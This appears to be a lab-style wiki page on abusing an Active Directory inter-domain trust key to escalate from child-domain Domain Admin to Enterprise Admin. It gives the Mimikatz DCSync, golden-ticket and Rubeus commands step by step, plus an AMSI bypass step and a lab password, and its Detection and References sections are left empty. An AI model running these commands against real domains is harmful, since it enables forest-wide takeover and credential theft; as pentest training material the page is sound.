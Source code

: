 # Trust key

## Attacking

### How it works

Once you gain Domain Admin privileges within the child domain its possible to get Enterprise Admin in the parent domain by generating a golden ticket in the child domain with the SID of the Enterprise Admin group.

### Tools

* [MimiKatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

### Executing the attack

The attack is executed from the perspective of already gaining domain admin privileges. This is done in the unconstrained delegation section:

{% content-ref url="../delegation-attacks/unconstrained-delegation/" %}
[unconstrained-delegation](../delegation-attacks/unconstrained-delegation/)
{% endcontent-ref %}

1. For easy execution, login on `WS01` as the `Administrator` user with the password `Welcome01!`.
2. Start PowerShell as Administrator and load a amsi bypass and MimiKatz into memory.

![](<../../../.gitbook/assets/image (71).png>)

3\. DCsync the trust key with MimiKatz:

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:amsterdam\bank$"'
```

![](<../../../.gitbook/assets/image (9).png>)

4\. Retrieve the SID of the enterprise Admins group, using PowerView:

```
Get-DomainGroup "Enterprise Admins" -Domain bank.local | Select-Object samaccountname, objectsid
```

![](<../../../.gitbook/assets/image (76) (1).png>)

5\. Retrieve the domain SID from the child domain, using PowerView:

```
Get-DomainSid
```

![](<../../../.gitbook/assets/image (64) (1).png>)

6\. Create a TGT for the krbtgt user and save it to disk with MimiKatz:

```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /rc4:<TRUST KEY HASH> /service:krbtgt /target:<FQDN PARENT DOMAIN> /ticket:<PATH TO SAVE TICKET>"'
```

![](<../../../.gitbook/assets/image (72).png>)

7\. Create a TGS for the CIFS service with Rubeus.exe using the created TGT:

```
.\Rubeus.exe asktgs /ticket:trustkey.kirbi /service:CIFS/dc01.bank.local /dc:dc01.bank.local /ptt
```

![](<../../../.gitbook/assets/image (28).png>)

List the tickets:

![](<../../../.gitbook/assets/image (13).png>)

## Defending

### Detection



## References

